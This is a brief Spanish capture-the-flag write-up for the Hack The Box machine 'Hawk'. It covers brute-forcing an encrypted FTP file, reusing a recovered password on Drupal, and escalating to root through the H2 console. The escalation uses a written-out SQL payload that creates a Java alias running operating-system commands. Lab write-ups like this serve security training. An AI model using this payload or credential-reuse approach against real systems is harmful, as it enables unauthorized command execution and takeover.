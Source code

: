 # HTB-Hawk


## NMAP 

![image](https://github.com/gecr07/HTB-Hawk/assets/63270579/fad289b8-7fd5-4005-abcf-e7cd1615c783)

Se tiene un archivo en el ftp

![image](https://github.com/gecr07/HTB-Hawk/assets/63270579/c06de564-3217-4c18-ae2f-bc323e070426)

Se puede usar el openssl-brute

> https://github.com/HrushikeshK/openssl-bruteforce

```
openssl aes-256-cbc -in file.txt -out file.crypted
```

Dentro encontramos una clave: PencilKeyboardScanner123


## RCE

El Drupal que encontramos re utilizamos la clave.

![image](https://github.com/gecr07/HTB-Hawk/assets/63270579/da8b4140-9f6b-40bf-bfbe-77351394e082)


![image](https://github.com/gecr07/HTB-Hawk/assets/63270579/0b6a325d-71ec-4b99-aa0f-cc6ba104e96b)


Entramos como el usuario www-data y si vemo el puero 8082 tenemo una base de datos H2

### H2 


Estamo dentro de la H2 Console. Usamos el truco de hackticks y entramos cuando no existe una base de datos

![image](https://github.com/gecr07/HTB-Hawk/assets/63270579/5d8377d9-2518-434b-b4d0-205581b4ab00)


```
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL EXECVE('id');

```

Y somo root...









































